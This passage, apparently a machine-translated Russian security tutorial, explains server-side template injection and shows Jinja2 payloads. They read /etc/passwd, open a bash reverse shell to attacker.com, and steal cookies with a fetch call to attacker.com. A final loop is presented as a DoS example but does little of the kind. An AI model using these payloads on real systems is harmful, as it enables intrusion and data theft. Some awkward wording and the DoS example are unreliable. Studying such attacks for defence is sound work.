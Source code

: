 ### Примеры использования внедрения шаблонов на стороне сервера

Несколько примеров того, как уязвимости внедрения шаблонов на стороне сервера (SSTI) могут быть использованы злоумышленниками:

1. Извлечение конфиденциальной информации: злоумышленник может использовать уязвимости SSTI для извлечения конфиденциальной информации, такой как учетные данные или сведения о подключении к базе данных. Например, злоумышленник может отправить полезную нагрузку, которая вводит код для печати содержимого ‘`/etc/passwd`‘ досье:

```none
{{config.__class__.__init__.__globals__['os'].popen('/bin/cat /etc/passwd').read()}}
```



Эта полезная нагрузка выполнит ‘`cat /etc/passwd`‘команда на сервере и возвращает содержимое файла.

2. Удаленное выполнение кода: уязвимости SSTI также могут быть использованы для выполнения произвольного кода на сервере. Например, злоумышленник может отправить полезную нагрузку, которая вводит функцию Python, которая открывает обратную оболочку на сервере:

```none
{{config.__class__.__init__.__globals__['os'].popen('/bin/bash -c "bash -i >& /dev/tcp/attacker.com/8080 0>&1"').read()}}
```



Эта полезная нагрузка выполнит `bash` выполните команду на сервере и откройте обратную оболочку для компьютера злоумышленника.

3. Межсайтовые сценарии (XSS): в некоторых случаях уязвимости SSTI могут быть использованы для внедрения вредоносных клиентских сценариев в шаблоны на стороне сервера. Это может привести к межсайтовым скриптовым атакам (XSS), когда злоумышленник может украсть файлы cookie или другую конфиденциальную информацию из браузера жертвы. Например, злоумышленник может отправить полезную нагрузку, которая вводит скрипт для кражи файлов cookie жертвы:

```none
{{'<script>fetch("http://attacker.com/steal.php?cookie="+document.cookie)</script>'}}
```



Эта полезная нагрузка введет скрипт, который использует ‘`fetch()`‘функция отправки файлов cookie жертвы на сервер злоумышленника.

4. Отказ в обслуживании (DoS): В некоторых случаях уязвимости SSTI могут быть использованы для проведения атаки типа "Отказ в обслуживании" (DoS), при которой сервер перегружается запросами и перестает отвечать. Например, злоумышленник может отправить полезную нагрузку, которая вводит цикл, который повторно отправляет запросы на сервер:

```none
{% for i in range(1000000) %}
   <img decoding="async" class="lazyload" src="data:image/gif;base64,R0lGODlhAQABAIAAAAAAAP///yH5BAEAAAAALAAAAAABAAEAAAIBRAA7" data-src="https://example.com/foo?{{i}}"><noscript><img decoding="async" class="lazyload" src="https://example.com/foo?{{i}}"></noscript>
{% endfor %}
```
